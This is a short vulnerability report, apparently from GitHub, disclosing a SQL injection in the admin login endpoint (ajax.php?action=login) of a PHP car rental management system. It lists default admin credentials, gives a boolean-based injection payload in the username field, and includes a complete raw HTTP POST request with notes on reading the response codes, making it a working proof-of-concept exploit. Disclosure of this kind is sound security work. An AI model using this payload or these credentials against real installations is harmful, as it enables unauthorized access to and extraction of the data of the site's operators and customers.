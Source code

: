 # Car Rental Management System v1.0 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.campcodes.com/projects/php/car-rental-management-system/

Vulnerability File: /ip/car-rental-management-system/admin/ajax.php?action=login

Vulnerability location: ip/car-rental-management-system/admin/ajax.php?action=login,username

[+] Payload: username=admin' and length(database())=13--+&password=admin // Leak place ---> username

Current database name: car_rental_db,length is 13

```sql
POST http://192.168.1.19/car-rental-management-system/admin/ajax.php?action=login HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/car-rental-management-system/admin/login.php
Content-Length: 59
Cookie: PHPSESSID=q0aiu0hqk51vrl4kivubc7u18k
Connection: close

username=admin' and length(database())=13--+&password=admin
```

1 is successful login, 3 is unable to log in

![image](https://user-images.githubusercontent.com/54017627/170958555-53b9508d-8f13-40b8-a219-1d8448b87a5d.png)

![image](https://user-images.githubusercontent.com/54017627/170958588-c6a71a00-a326-413f-a866-32ae579fa8b8.png)
